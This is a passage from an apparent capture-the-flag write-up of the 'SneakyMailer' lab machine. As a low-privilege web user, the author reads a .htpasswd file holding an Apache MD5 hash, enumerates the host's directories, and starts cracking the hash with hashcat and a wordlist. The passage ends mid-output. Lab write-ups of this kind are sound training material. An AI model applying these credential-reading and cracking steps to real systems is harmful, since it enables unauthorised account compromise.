 ```bash
cat .htpasswd
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```
Some research online shows this to be a salted MD5 hash.  
Before moving on, some further enumeration:
```bash
www-data@sneakymailer:~/pypi.sneakycorp.htb/venv$ cat pyvenv.cfg
cat pyvenv.cfg
home = /usr/bin
include-system-site-packages = false
version = 3.7.3
```
This is the pyvenv config showing version 3.7.3.
```bash
www-data@sneakymailer:~$ cd html
cd html
www-data@sneakymailer:~/html$ ls
ls
index.nginx-debian.html
```
This appears to be the second web server on port 8080. The lack of content here suggests it is indeed pointless.
```bash
www-data@sneakymailer:~$ cd /home
cd /home
www-data@sneakymailer:/home$ ls
ls
low  vmail
```
Two users exist with folders on the machine. Low, which is the "user", and an account called "vmail

### 10. Crack the hash
This site - https://www.askapache.com/online-tools/htpasswd-generator/ has some good information on the types of hashes typically found in htpasswd. In particular, this section is of interest:  
*iMD5 is one in a series of message digest algorithms designed by Professor Ronald Rivest of MIT. The 128-bit (16-byte) MD5 hashes (also termed message digests) are typically represented as a sequence of 32 hexadecimal digits. In .htpasswd files the hash is: $apr1$ + an Apache-specific algorithm using an iterated (1,000 times) MD5 digest of various combinations of a random 32-bit salt and the password. ALG_APMD5.*
  
Knowing this, I can copy the hash into a file and run hashcat using the appropriate settings.
```bash
kali@kali:~/Desktop/htb/sneakymailer$ vim hthash.hash
kali@kali:~/Desktop/htb/sneakymailer$ hashcat -a 0 -m 1600 hthash.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.0.0) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-7500U CPU @ 2.70GHz, 1424/1488 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
```